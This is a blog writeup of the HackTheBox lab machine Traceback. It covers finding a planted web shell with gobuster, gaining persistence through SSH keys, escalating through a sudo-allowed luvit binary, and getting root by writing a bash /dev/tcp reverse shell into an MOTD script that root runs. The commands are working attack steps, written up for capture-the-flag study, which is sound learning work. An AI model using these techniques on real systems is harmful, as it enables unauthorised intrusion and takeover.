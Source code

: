 ```yaml
---
title: "HackTheBox: Traceback Writeup"
date: 2020-08-15 07:00:00 +0000
categories:
  - blog
tags:
  - CTF
  - HTB
  - English
---
```


Today i'll post a writeup on the machine Traceback from HackTheBox, it's a Linux box with difficulty rating easy. 

The scenario here is that we are left with a box that has been previously hacked, to own the box we craft a specific wordlist, abuse sudo rights and finally exploiting a cronjob running as root. 

![Traceback infocard](https://jackhack.se/assets/images/traceback/traceback_info.png)
{: .full}
# Recon
~~~
# Nmap 7.80 scan initiated Mon Jun  1 15:59:06 2020 as: nmap -sC -sV -oA initial -T 5 10.10.10.181
Nmap scan report for 10.10.10.181
Host is up (0.043s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  1 15:59:21 2020 -- 1 IP address (1 host up) scanned in 15.74 seconds
~~~
{: .language-bash}
Basic nmap scan shows nothing but a webserver and open ssh-port. 
Moving on to manually inspecting the site i am presented with a defaced site telling me there is a backdoor left on the server for anyone to use.

![Website](https://jackhack.se/assets/images/traceback/website.png)
{: .full}
I'm guessing there is some type of commonly used web-shell that has been uploaded, so im heading to google to search for common web-shells, i found two GitHub [repos](https://github.com/TheBinitGhimire/Web-Shells) containing various webshells and put them into a list to use for bruteforcing. 

Now by running gobuster against the url i should be able to find the backdoor that has been left for us. 

~~~
kali@kali:~/boxes/traceback$ gobuster dir -u http://traceback.htb/ -w shells.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://traceback.htb/
[+] Threads:        10
[+] Wordlist:       shells.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/12 04:29:14 Starting gobuster
===============================================================
/smevk.php (Status: 200)
===============================================================
2020/08/12 04:29:15 Finished
===============================================================
~~~
{: .language-bash}

# User
After navigating to the location of **smevk.php** i am met with a login page, checking the previously github repo gives away the default credentials for this particular shell. 

![shell_pass.png](https://jackhack.se/assets/images/traceback/shell_pass.png)
{: .full}
The shell is running as user **webadmin**, so i navigated trough the shell to the users *.ssh* folder and added my ssh-key to the *authorized_keys* file, to be able to get a better shell at the machine. 

![Add SSH Key](https://jackhack.se/assets/images/traceback/addSsh.png)
{: .full}

![Initial shell](https://jackhack.se/assets/images/traceback/shell.png)
{: .full}

After connecting to the machine via ssh and noticing there is no user flag i can see there is a *note.txt* that contains some information from the **sysadmin** account

~~~
webadmin@traceback:~$ ls
note.txt
webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
~~~
{: .language-bash}

One simple privilege escalation technique is to always check if your current user has any sudo permissions, and if so what you are allowed to do

~~~
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
~~~
{: .language-bash}

This output tells me i can run the binary *luvit* as the user **sysadmin** without providing any password. 

Considering the note mentioning the script language lua i suspect that the binary has something to do with lua. From the [luvit blog](https://luvit.io/blog/pure-luv.html) we can read the following

>Luvit is a single binary that contains the lua vm, libuv, openssl, miniz as well as a host of standard libraries implemented in lua that closely resemble the public node.js APIs. You give it a lua script to run and it runs it in the context of this system.

I don't really have any knowledge about lua, but i tried to make a lua script that would get me a shell as **sysadmin** and then "feed it" to the luvit binary. 

~~~
webadmin@traceback:~$ echo 'os.execute("/bin/bash");' > exploit.lua
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit exploit.lua 
sysadmin@traceback:~$ cd /home/sysadmin/
sysadmin@traceback:/home/sysadmin$ cat user.txt
985618----------f3cbb719dfe06e35
sysadmin@traceback:/home/sysadmin$ 
~~~
{: .language-bash}

# Root

Moving on to root, it took me a while and i ran various privesc scripts, but after checking running processes with **ps aux** a few times, i noticed a cronjob running in root context

~~~
--snip--
root       2556  0.0  0.0  58792  3312 ?        S    02:09   0:00 /usr/sbin/CRON -f
root       2559  0.0  0.0   4628   864 ?        Ss   02:09   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
root       2561  0.0  0.0   7468   740 ?        S    02:09   0:00 sleep 30
root       2616  0.0  0.0      0     0 ?        I    02:09   0:00 [kworker/0:0]
sysadmin   2617  0.0  0.0  39664  3684 pts/0    R+   02:09   0:00 ps aux
~~~
{: .language-bash}

So every couple of minutes a cronjob is executed, that copies backuped *motd* files into the */etc/update-motd.d/* folder.

MOTD stands for Message Of The Day, and usally it is the message that's presented to the users while logging on to a system trough a terminal. 

So if i can modify one of the current motd files in the */etc* directory to run some type of reverse shell and execute it before the backup cronjob runs, i should be able to get a shell as root.

This is doable since the files in */etc/update-motd.d/* is owned by the group sysadmin, wich my current user is a member of. 

~~~
sysadmin@traceback:/etc/update-motd.d$ ls -la
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 12 02:08 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 12 02:08 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 12 02:08 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 12 02:08 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 12 02:08 91-release-upgrade
sysadmin@traceback:/etc/update-motd.d$ 
~~~
{: .language-bash}

So i add my public ssh key to **sysadmin**'s .ssh folder, and insert a simple bash reverse shell into on of these files, set up a reverse shell *listener* and ssh into the box as sysadmin to execute the shell. 

~~~
sysadmin@traceback:/home/sysadmin$ echo "<My public ssh key>" > .ssh/authorized_keys
sysadmin@traceback:/home/sysadmin$ cd /etc/update-motd.d/
sysadmin@traceback:/etc/update-motd.d$ echo -e "'#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.30/9001 0>&1' > 00-header"
~~~
{: .language-bash}

And set up the reverse listener on my kali box
~~~
kali@kali:~$ nc -lvnp 9001

listening on [any] 9001 ...
~~~
{: .language-bash}

After successfully connecting to the box as **sysadmin** my reverse shell executed and i got root on this box.

![Root](https://jackhack.se/assets/images/traceback/root2.png)
{: .full}

